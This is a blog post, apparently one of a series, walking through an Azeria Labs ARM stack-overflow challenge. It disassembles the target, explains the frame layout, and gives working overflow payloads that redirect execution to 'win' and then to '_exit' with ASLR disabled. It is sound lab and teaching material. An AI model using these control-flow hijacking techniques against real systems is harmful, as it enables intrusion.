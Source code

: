 ```yaml
---
layout: post
title: "Smashing ARM Stack for Fun - Part V"
---
```


[Fifth challenge](https://github.com/azeria-labs/ARM-challenges)
with a small introduction to *process continuation*.<!--more-->


## Planning the exploit

```nasm
pwndbg> pdisass &main
 ► 0x10464 <main>       push   {fp, lr}
   0x10468 <main+4>     add    fp, sp, #4
   0x1046c <main+8>     sub    sp, sp, #0x48
   0x10470 <main+12>    str    r0, [fp, #-0x48]
   0x10474 <main+16>    str    r1, [fp, #-0x4c]
   0x10478 <main+20>    sub    r3, fp, #0x44
   0x1047c <main+24>    mov    r0, r3
   0x10480 <main+28>    bl     #gets@plt <gets@plt>

   0x10484 <main+32>    mov    r0, r3
   0x10488 <main+36>    sub    sp, fp, #4
   0x1048c <main+40>    pop    {fp, pc}
```

`sub r3, fp, #0x44` means that the buffer begins 0x44 bytes from `fp`,
the begin of the stack frame.

As we saw [previously](/book-of-gehn/articles/2021/01/14/Smashing-ARM-Stack-for-Fun-Part-I.html),
the stack frame includes the *previous* value
of `fp` but not `lr` which it is *immediately below*.

So a buffer overflow of 0x44 bytes will overwrite the stored `fp` and an
overflow of 0x48 will overwrite `fp` and `lr`.

If we do the latter, the function `main` will jump to
our own code on *return*.

{% marginnote
'The left diagram shows the stack from lower
addresses (left) to higher addresses (right) and the `main`&apos;s and
`__libc_start_main`&apos;s stack frames (`main` and `start` for short)
' %}


```nasm
    main --------------v------ start
.......   fp      lr   |  ??   ??   ??   ??
```

As you can see the `fp` and `lr` are stored in the stack as well as an
unknown local variables of `__libc_start_main`.

When the overflow occurs this is the result:

```nasm
    main ---------------v----- start
.......   fp      lr    | ??   ??   ??   ??         (pre-exploit)
    main ---------------v----- start
AAAAAAA   BB      addr1 | ??   ??   ??   ??         (overflow)
```

No more crazy stuff is needed here, we can jump to `win` (`addr1 == 0x1044c`)
directly.

## Exploit level 1

```shell
pi@raspberrypi:~$ echo -ne 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x4c\x04\x01\x00' | ./stack4
code flow successfully changed
Segmentation fault
```

Yeah! but that segfault looks sloppy.

## A more *polite* exploit

Once `win` executes it will pop from the stack the stored
`lr` and set it into `pc`.

We didn't call `win` with `bl` or similar so the `lr` was never
set correctly and the value pushed in the stack by `win` was garbage.

When `win` returns will jump to who-knows-where.

```nasm
    main ---------------v----- start
.......   fp      lr    | ??   ??   ??   ??         (pre-exploit)
    win ----------------v----- start
          BB      ??    | ??   ??   ??   ??         (win called)
                  ^
                  ret address of win
```

And if we don't jump to `win` exactly?

We could jump to the second instruction of `win`:
we will be **skipping** the `push`.

```nasm
pwndbg> pdisass &win
   0x1044c <win>        push   {fp, lr}
 ► 0x10450 <win+4>      add    fp, sp, #4
   0x10454 <win+8>      ldr    r0, [pc, #4]
   0x10458 <win+12>     bl     #puts@plt <puts@plt>

   0x1045c <win+16>     pop    {fp, pc}
```

In this way we can *emulate* the `push` of `fp` and `lr` adding 8 bytes
to our payload.

```nasm
    main ---------------v--------- start
.......   fp      lr    | ??    ??      ??   ??      (pre-exploit)
    main ---------------v--------- start
AAAAAAA   BB      addr1 | CC    addr2   ??   ??      (overflow extended)
                        v--------- start
          ??      ??    | CC    addr2 | ??   ??      (win called without push)
        ------ win -------------------^
```

So now we control where `win` will return: `addr2`.

## Planning a controlled exit

An ideal situation would make the program continue running after
exploiting it, known as
[process continuation shellcode](https://azeria-labs.com/process-continuation-shellcode/)
but it is too complex for now.

The simplest thing is to call
[`_exit`](https://linux.die.net/man/2/_exit)
a thin glib wrapper of [`exit_group`](https://man7.org/linux/man-pages/man2/exit_group.2.html)
syscall that exits the process and its threads.

```nasm
pwndbg> pdisass &_exit
 ► 0xb6f1b934 <_exit>       push   {r7, lr}
   0xb6f1b938 <_exit+4>     mov    r2, r0
   0xb6f1b93c <_exit+8>     mov    r7, #0xf8
   0xb6f1b940 <_exit+12>    svc    #0
   0xb6f1b944 <_exit+16>    cmn    r0, #0x1000
   0xb6f1b948 <_exit+20>    bhi    #_exit+68 <_exit+68>
```

The `svc #0` is what it triggers the syscall. In Arm 32bits the
instruction is `swi` but the disassembler renames it to the newer name:
*supervisor call*.

The syscall number is passed to the kernel via `r7` as mentioned in [man
syscall(2)](https://man7.org/linux/man-pages/man2/syscall.2.html).

In our case [0xf8 is the syscall number](https://github.com/torvalds/linux/blob/v4.17/arch/arm/tools/syscall.tbl#L265)
of
[`exit_group`](https://man7.org/linux/man-pages/man2/exit_group.2.html).

## Exploit level 2

We are going to cheat a little and disable ASLR so we can hardcode
the address of `_exit` (0xb6f1b934)

```shell
pi@raspberrypi:~$ setarch linux32 --addr-no-randomize /bin/bash
(aslr disabled) pi@raspberrypi:~$ echo -ne 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x50\x04\x01\x00BBBB\x34\xb9\xf1\xb6' | ./stack4
code flow successfully changed

(aslr disabled) pi@raspberrypi:~$ echo $?
31

(aslr disabled) pi@raspberrypi:~$ exit
exit
```

As you can see the return code of the process was 31. I corroborated
with a debugger the value of the registers before the syscall and `r0`
was 31 as expected.

Instead of jumping to `_exit` we could jump before to a piece of code
--known as gadget-- that sets `r0` to zero and then jump to `_exit`.

But that's for another post.

